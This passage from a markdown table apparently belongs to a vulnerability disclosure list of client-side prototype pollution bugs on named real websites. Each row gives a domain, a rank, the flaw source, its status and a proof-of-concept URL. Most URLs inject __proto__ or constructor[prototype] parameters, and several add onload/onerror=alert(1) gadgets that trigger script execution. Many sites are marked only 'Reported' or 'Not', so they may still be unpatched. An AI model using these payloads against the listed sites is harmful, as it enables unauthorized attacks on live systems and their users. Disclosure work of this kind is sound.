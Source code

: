 |canadianmanufacturing.com|120252|URL|-|Reported|`https://canadianmanufacturing.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|canadianpackaging.com|876220|URL search|-|Reported|`https://canadianpackaging.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|candidroot.com|993878|URL|-|Reported|`https://candidroot.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|candydirect.com|421467|URL search|, URL-M|Fixed|`https://www.candydirect.com/collections/masterfoods-m-m-mars/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|candyindustry.com|164279|URL search|-|Reported|`https://candyindustry.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|canoekayak.ca|989198|URL|-|Reported|`https://canoekayak.ca/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|canplastics.com|625318|URL search|-|Reported|`https://canplastics.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cantatahealth.com|653645|URL search|, Cookie-M, URL-M|Reported|`https://cantatahealth.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cap.ru|17810|URL|, Cookie-M, URL-M|Reported|`https://cap.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|capitalgains.ru|634787|URL search|, Cookie-M, URL-M|Reported|`https://capitalgains.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|capitaloneshopping.com|6586|URL search|, URL-M|Reported|`https://capitaloneshopping.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cardless.com|17940|URL search|, Cookie-M|Reported|`https://cardless.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|carjam.co.nz|216167|URL search|-|Reported|`https://www.carjam.co.nz/pricing/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|carluccios.com|156975|URL search|, URL-M|Reported|`https://carluccios.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|carmellimo.com|377009|URL search|-|Reported|`https://carmellimo.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|carnagenews.ru|731075|URL search|, Cookie-M, URL-M|Reported|`https://carnagenews.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|carnival.com.au|348015|URL search|, Cookie-M|Fixed|`https://www.carnival.com.au/funshops/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|carnovato.ru|667296|URL search|, Cookie-M|Not|`https://carnovato.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|carparts-fixture.com|222430|URL search|-|Reported|`https://carparts-fixture.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|carro.sg|324064|URL search|-|Reported|`https://carro.sg/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|carterbloodcare.org|269825|URL search|-|Reported|`https://carterbloodcare.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|carwash.com|167365|URL|, URL-M|Not|`https://carwash.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|casaone.com|456451|URL search|, Cookie-M|Reported|`https://casaone.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cascade.app|298760|URL search|, Cookie-M, URL-M|Reported|`https://www.cascade.app/book-demo?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&utm_campaign=HOME%20AB&utm_source=HOMEF1BOOKDEMO&utm_medium=HOMEF1-DEMO&hsLang=en`
|case-iraq.iq|776354|URL search|-|Fixed|`http://case-iraq.iq/case-listing/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)&product-line=motor-graders`
|casinojournal.com|602140|URL search|-|Reported|`https://casinojournal.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|casonline.com|533435|URL search|, Cookie-M|Reported|`http://casonline.com/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|catperson.com|846324|URL search|, Cookie-M, URL-M|Reported|`https://catperson.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|catster.com|33048|URL search|, Cookie-M, URL-M|Fixed|`https://www.catster.com/humor/do-you-look-like-your-cat/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|caynac.com|928552|URL search|-|Reported|`https://caynac.com/es/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|cb2.ca|243087|URL search|, Cookie-M|Not|`https://cb2.ca/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cb2.com|9023|URL search|, Cookie-M, URL-M|Not|`https://cb2.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cbredealflow.com|359681|URL search|-|Reported|`https://cbredealflow.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|ccclib.org|293960|URL search|-|Reported|`https://ccclib.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|ccmm.ca|459948|URL search|, Cookie-M|Reported|`https://ccmm.ca/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cctvsecuritypros.com|476666|URL search|, Cookie-M, URL-M|Reported|`https://cctvsecuritypros.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cdjapan.co.jp|30346|URL search|-|Fixed|`https://www.cdjapan.co.jp/product/NEODAI-77557/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`